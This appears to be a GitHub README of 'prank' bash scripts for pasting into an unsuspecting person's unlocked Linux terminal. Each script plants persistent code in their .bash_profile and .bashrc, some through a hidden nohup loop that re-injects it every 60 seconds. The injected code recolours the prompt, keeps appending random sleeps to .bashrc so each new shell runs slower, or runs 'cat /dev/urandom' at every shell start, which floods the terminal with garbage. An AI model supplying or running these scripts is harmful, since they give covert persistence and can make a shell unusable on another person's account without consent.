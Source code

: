 # fun-prank-scripts

## Kill nohup commands
```
pkill -f "bash -c while true;"
```

## rainbow_script
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to make their ps1 very colorful!
This will continue to happen until they remove the added code from the .bash_profile file.
```
cat >> "$HOME/.bash_profile" << 'EOF'
BLOCK_START="# >>> LOCKED PROMPT PRANK START >>>"
BLOCK_END="# <<< LOCKED PROMPT PRANK END <<<"

TARGET="$HOME/.bashrc"

if ! grep -Fq "$BLOCK_START" "$TARGET"; then
  cat >> "$TARGET" << 'BLOCK'
# >>> LOCKED PROMPT PRANK START >>>
random_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt
# <<< LOCKED PROMPT PRANK END <<<
BLOCK
fi
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nrandom_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## sleeping
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to add sleep to their bashrc every time it's run!
This will continue to happen until they remove the added code from the .bash_profile file.

```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
echo sleep 0.$RANDOM >> $HOME/.bashrc
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \necho `sleep 0.$RANDOM` >> $HOME/.bashrc" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## cat_ps1
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
export PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nexport PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## random_chars
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
cat /dev/urandom
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \ncat /dev/urandom" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```
